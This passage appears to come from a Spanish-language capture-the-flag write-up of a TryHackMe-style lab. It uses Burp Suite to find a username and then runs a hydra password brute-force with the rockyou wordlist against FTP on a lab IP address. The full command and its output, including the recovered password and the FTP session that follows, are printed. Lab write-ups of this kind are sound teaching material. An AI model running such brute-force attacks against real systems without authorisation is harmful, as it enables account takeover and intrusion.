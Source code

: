 Mediante la herramienta **BurpSuite** vemos que para la letra **C** nos genera un código de estado 302, es decir, nos redirecciona:

![""](/assets/images/thm-agentsudo/agentsudo2.png)

Vemos que nos redirecciona a http://10.10.175.93/agent_C_attention.php y se nos muestra un potencial usuario: **chris**; asi mismo, no indica que que hablemos con el agente **J** y que nuestra contraseña es insegura. Ahora, podriamos tratar de realizar un ataque de fuerza bruta sobre el usuario **chris** y el puerto 21:

```bash
❯ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.175.93
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-20 21:24:35
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.175.93:21/
[STATUS] 249.00 tries/min, 249 tries in 00:01h, 14344150 to do in 960:08h, 16 active
[21][ftp] host: 10.10.175.93   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-20 21:25:39
```

Ya tenemos acceso vía ftp, así que vamos a ver los recursos que se encuentran:

```bash
❯ ftp 10.10.175.93
Connected to 10.10.175.93.
220 (vsFTPd 3.0.3)
Name (10.10.175.93:k4miyo): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *
mget To_agentJ.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
226 Transfer complete.
217 bytes received in 0.00 secs (46.1284 kB/s)
mget cute-alien.jpg? y
200 PORT command successful. Consider using PASV.
```